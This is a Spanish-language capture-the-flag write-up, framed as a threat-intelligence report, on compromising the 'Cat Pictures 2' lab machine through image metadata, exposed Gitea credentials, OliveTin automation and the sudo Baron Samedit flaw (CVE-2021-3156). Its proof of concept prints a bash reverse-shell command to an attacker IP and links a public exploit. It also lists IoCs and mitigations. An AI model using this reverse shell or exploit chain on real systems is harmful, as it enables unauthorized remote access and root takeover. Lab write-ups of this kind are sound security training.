


<div align="center">
  
</div>

<div align="center">

# Basic Pentesting <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

  ## Video de resolución <!-- omit in toc -->

  <a href="https://youtu.be/y1gNQZuWiY8">
    
    <br>
    Ver video en Youtube
  </a>
</div>

<br><br>

<div align="center">
  <a href="./assets/catpictures2-cti.pdf">📄 Informe Oficial (PDF)</a>
</div>

<br><br>

## Informe de Inteligencia de Amenazas - Máquina "Cat Pictures 2" <!-- omit in toc -->

<br>

## Índice <!-- out in toc -->
- [Índice ](#índice-)
  - [RESUMEN EJECUTIVO (Executive Summary)](#resumen-ejecutivo-executive-summary)
  - [ENTORNO OBJETIVO](#entorno-objetivo)
  - [FASE DE RECONOCIMIENTO Y RECOLECCIÓN (Recon­naissance \& Enumeration)](#fase-de-reconocimiento-y-recolección-reconnaissance--enumeration)
    - [Escaneo de Red y Servicios Expuestos](#escaneo-de-red-y-servicios-expuestos)
    - [Hallazgos de Enumeración Web](#hallazgos-de-enumeración-web)
  - [CADENA DE ATAQUE (Kill Chain \& Technical Analysis)](#cadena-de-ataque-kill-chain--technical-analysis)
    - [Acceso Inicial (Initial Access)](#acceso-inicial-initial-access)
    - [Puntuación y Métrica CVSS v3.1](#puntuación-y-métrica-cvss-v31)
  - [ESCALADA DE PRIVILEGIOS (Privilege Escalation)](#escalada-de-privilegios-privilege-escalation)
  - [INDICADORES DE COMPROMISO (IoCs)](#indicadores-de-compromiso-iocs)
    - [Indicadores de Red (Network IoCs)](#indicadores-de-red-network-iocs)
    - [Indicadores en Host (Host-Based IoCs)](#indicadores-en-host-host-based-iocs)
  - [MAPEO DE TÁCTICAS Y TÉCNICAS (MITRE ATT\&CK)](#mapeo-de-tácticas-y-técnicas-mitre-attck)
  - [RECOMENDACIONES Y MITIGACIONES (Actionable Intel­ligence)](#recomendaciones-y-mitigaciones-actionable-intelligence)
    - [Análisis de Remediaciones Técnicas](#análisis-de-remediaciones-técnicas)
    - [Mitigaciones Inmediatas (Tácticas)](#mitigaciones-inmediatas-tácticas)
    - [Mitigaciones a Largo Plazo (Estratégicas)](#mitigaciones-a-largo-plazo-estratégicas)

  

<br>

### RESUMEN EJECUTIVO (Executive Summary)
* **Propósito**: Brindar a la dirección o responsables de decisión una vista global del estado de seguridad de la infraestructura evaluada, detallando los riesgos expuestos y el impacto de una intrusión sin recurrir a tecnicismos excesivos.

* **Impacto Principal**: Exposición total de la infraestructura (nivel de riesgo **CRÍTICO**), alcanzados mediante la combinación de malas configuraciones en servicios web expuestos y vulnerabilidades conocidas no parcheadas a nivel de sistema operativo.

* **Vector de Entrada**: Inclusión de credenciales y rutas de servicios internos expuestos mediante metadatos ocultos en servicios web públicos (archivos de imágen _JPEG_) alojados, a su vez, en el servicio web de gestión de fotos **Lychee** (software de terceros) por el puerto 80/TCP. Esto permitió accederal gestor de código **Gitea** (software de terceros) en el puerto 3000/TCP y posteriormente manipular gestores de automatización en **OliveTin** (softare de terceros) en el puerto 1337/TCP para la ejecución remota de comandos.

* **Escalada de Privilegios**: Explotación de una vulnerabilidad conocida (**CVE-2021-3156**) en el binario `sudo` versión 1.8.21 el cual contiene un error _«off-by-one»_ que puede provocar un desbordamiento de búfer en el _«heap»_ (montón), la cual permite a los usuarios sin privilegios ejecutar código arbitrario con permisos de superusuario (`root`).

* **Resumen**: Durante la auditoría al al host `Cat Pictures 2`, la revisión de los metadatos de los archivos gráficos en la plataforma **Lychee** (puerto 80/TCP) se descubrieron referencias a un directorio interno en el puerto 8080/TCP. Dicha ruta contenía credenciales de acceso para el servicio de control de versiones **Gitea** (puerto 3000/TCP).

  Mediante el análisis del repositorio interno en **Gitea** y la interacción con la interfaz de automatización **OliveTin** (puerto 1337/TCP), se manipuló la infraestructura como código (**IaC**) para obtener acceso inicial al sistema mediante una sesión interactiva con los privilegios del usuario `bismuth`. Finalmente, se aprovechó la versión desactualizada del binario `sudo` y la ejecución de un exploit (desarrollado por terceros) asociado a la vulnerabilidad documentada (*CVE-2021-3156*), se escalaron privilegios hasta alcanzar el nivel de acceso total (`root`).


--- 
<br>

### ENTORNO OBJETIVO
* **Nombre de la Amenaza / Host**: Cat Pictures 2 - Cheese CTF
* **Dirección IP / Alcance**: `10.112.138.93  `
* **Sistema Operativo**: Ubuntu 18.04.6 LTS (Bionic Beaver)
* **Objetivo Comercial/Función**: Servidor web de producción simulado

---
<br>

### FASE DE RECONOCIMIENTO Y RECOLECCIÓN (Recon­naissance & Enumeration)

####  Escaneo de Red y Servicios Expuestos

| Puerto | Servicio | Versión | Estado |
|---|---|---|---|
| 22/TCP | SSH | OpenSSH 7.6p1 | Abierto |
| 80/TCP | HTTP | NGINX 1.4.6 | Abierto |
| 222/TCP | SSH | OpenSSH 9.0 | Abierto |
| 1337/TCP | HTTP | Golang net/http server | Abierto |
| 3000/TCP | HTTP | Golang net/http server | Abierto |
| 8080/TCP | HTTP | SimpleHTTPServer 0.6 (Python 3.6.9) | Abierto |


#### Hallazgos de Enumeración Web

* **Estructura de Directorios Descubierta**:

    * Puerto 80/TCP **Lychee**:

      A pesar que el software **Lychee** es gestionado mediante scripts que interactúan con los atributos `href` del documento HTML índice (index) se logró acceder a las siguientes rutas:

        * `http://catpictures.thm/#16678460194615/16678466730867` → (HTTP 200) - Mensaje que indica "_revisar de la metadata_" de la foto en cuestión.

        * `http://catpictures.thm/uploads/big/f5054e97620f168c7b5088c85ab1d6e4.jpg` → (HTTP 200) - Ruta absoluta para la descarga de la foto.

    * Puerto 8080/TCP:

      * `http://catpictures.thm:8080/764efa883dda1e11db47671c4a3bbd9e.txt` → (HTTP 200) - Exposición de credenciales para el puerto 3000/TCP y referencia al puerto 1337/TCP.

    * Puerto 3000/TCP **Gitea**:

      * `http://catpictures.thm:3000` → (STATUS 200) - Servicio de control de versiones.

      * `http://catpictures.thm:3000/samarium/ansible/src/branch/main/playbook.yaml` → (STATUS 200) - Archivo `YAML` que manipula el gestor de automatización **OliveTin**


    * Puerto 1337/TCP **OliveTin**:

      * `http://catpictures.thm:1337` → (STATUS 200) - Gestor de automatización mediante interfaz interactiva (**IaC**).

<br>

* **Detalles Técnicos**:

  La inspección manual (escaneo pasivo) y las referencias encontradas en las diversas plataformas y servicios (**Lychee** y **nginx**) permitieron la autenticación en el servicio **Gitea** para la manipulación del archivo `YAML` con el cuál se gestiona el software de infraestructura como código (IaC) **OliveTin**.

---
<br>

### CADENA DE ATAQUE (Kill Chain & Technical Analysis)

#### Acceso Inicial (Initial Access)

* **Táctica MITRE ATT&CK**: Initial Access / Exploitation of Public-Facing Application (T1190)

* **Vulnerabilidad Explotada**: CWE-540: Inclusion of Sensitive Information in Source Code / Exposición de Credenciales en Texto plano. 

* **Descripción del Exploit**:

  Se aprovechó una mala configuración en la gestión de archivos y metadatos dentro del servicio web **Lychee**. Al inspeccionar la metadata de una imágen accesible públicamente, se encontró una ruta web que expone un archivo de texto plano. El documento en cuestión contenía credenciales de autenticación válidas para el servicio de control de versiones **Gitea**, lo que permitió posteriormente manipular la automatización en **OliveTin** para la ejecución remota de comandos.


* **Prueba de Concepto (PoC)**:

  * Puerto 80/TCP **Lychee**

    Descarga de la imágen que contiene metadatos con información

    ```bash
    wget http://catpictures.thm/uploads/big/f5054e97620f168c7b5088c85ab1d6e4.jpg
    ```

    Exponiendo los metadatos con información:

    ```bash
    exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
    ```

    Metadata de la imágen

    ```bash
    # - Información extra - ...

    Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt

    # - Información extra - ...

    ```

  * Puerto 8080/TCP **nginx**:

    ```bash
    curl -s http://catpictures.thm:8080/764efa883dda1e11db47671c4a3bbd9e.txt
    ```


  * Puerto 1337/TCP *Gitea*, el cambio de este archivo afectará en el servicio web *OliveTin* por el puerto 1337/TCP:

    ```yaml
    # - Información extra - ...

    command: /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.130.57&3333 0>&1'

    # - Información extra - ...
    ```

---
<br>

#### Puntuación y Métrica CVSS v3.1
* Puntuación Base: 9.6 (Crítico)
* Vector CVSS: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N`

---
<br>

### ESCALADA DE PRIVILEGIOS (Privilege Escalation)

* **Táctica MITRE ATT&CK**:

  * Privilege Escalation / Exploitation of Privilege Escalation (T1068)

  * Execution / Command and Scripting Interpreter: Unix Shell (T1059.004)

* **Vector de Escalada**: Versión desactualizada del binario `sudo` (_v1.8.21_), con vulnerabilidades conocidas (**CVE-2021-3156**, mejor conocido como **Baron Samedit**), y la ejecución de un _«exploit»_ desarrollado por terceros. 


* **Comando de Detección**:

  ```bash
    sudo --version
  ```

> [!TIP]
> Script desarrollado para ubicar los binarios y sus versiones (enlace):
> 
> [Click aquí - Automatización de búsqueda para versiones de binarios (**HellHound**)](./assets/exploit-catpictures2.sh)
> 
> Exploit encontrado para la escalada de privilegios con desbordamiento de búfer, desarrollado por terceros, se agradece su esfuerzo:
> 
> [Click Aquí - Exploit de Python (**CVE-2021-3156**, **Baron Samedit**)](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py)
> 

<br>

* **Explotación**: Se descargó un _exploit_ público desarrollado en Python3 para la vulnerabilidad **CVE-2021-3156** (**Baron Samedit**). Este script aprovecha la forma en que `sudo` maneja las opciones de la lista de comandos para corromper la memoria del montón (_heap_), lo que termina en escalada de privilegios.

---
<br>

### INDICADORES DE COMPROMISO (IoCs)

#### Indicadores de Red (Network IoCs)
* **IPs Maliciosas Relacionadas**: 192.168.130.57 (Attacker IP)

* **URLs Afectadas**:

    * `http://catpictures.thm:3000/samarium/ansible/src/branch/main/playbook.yaml`

    * `http://catpictures.thm:1337`

  - **Modificación en Componentes de Automatización**: Manipulación del archivo de configuración `YAML` de Infraestructura como Código (IaC) en **Gitea**, empleado para inyectar comandos del sistema a través de la interfaz web de **OliveTin**.

---
<br>

#### Indicadores en Host (Host-Based IoCs)

* **Rutas de Archivos Creados/Modificados**:

  - `/root/.ssh/id_new` → Llave privada SSH generada con usuario `root` para mantener persistencia.

  - `/root/.ssh/id_new.pub` → Llave pública correspondiente para autenticación.

---

### MAPEO DE TÁCTICAS Y TÉCNICAS (MITRE ATT&CK)

| Táctica | ID Técnica | Técnica |
|---|---|---|
| Initial Access | T1190 | Exploitation of Public-Facing Application |
| Privilege Escalation | T1068 | Exploitation of Privilege Escalation |
| Execution | T1059.004 | Command and Scripting Interpreter: Unix Shell |

---
<br>

### RECOMENDACIONES Y MITIGACIONES (Actionable Intel­ligence)

#### Análisis de Remediaciones Técnicas

#### Mitigaciones Inmediatas (Tácticas)

  1. **Parchado de Software**: Actualizar el binario `sudo` a una versión superior a `1.9.5p2` para mitigar definitivamente la vulnerabilidad de desbordamiento de búfer en el montón (_«buffer overflow heap-based»_) (**CVE-2021-3156**).

  1. **Remoción de Archivos con Credenciales**: Retirar y asegurar el archivo de texto plano expuesto en el servidor web (puerto 8080/TCP) y evitar incrustar información sensible o rutas de servicios internos (incluyendo referencias o "guiños") en los metadatos de archivos multimedia públicos en **Lychee**

  1. **Restricción de Comandos**: Asignar una lista negra (_blacklist_) para comandos de la terminal que se podrían ejecutar desde la interfaz de automatización de **OliveTin** (puerto 1337/TCP) para evitar la ejecución arbitraria de comandos.

#### Mitigaciones a Largo Plazo (Estratégicas)

  1. **Gestión de Secretos y Contraseñas**: Implementar un gestor de contraseñas o de secretos (_Secrets Management_) para evitar el uso de credenciales dentro de repositorios.

  1. **Automatización de Actualizaciones**: Ejecutar actualizaciones del sistema y sus binarios periódicamente, de ser posible, automatizar estas tareas mediante `cron` o servicios del sistema `systemd`

<br><br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>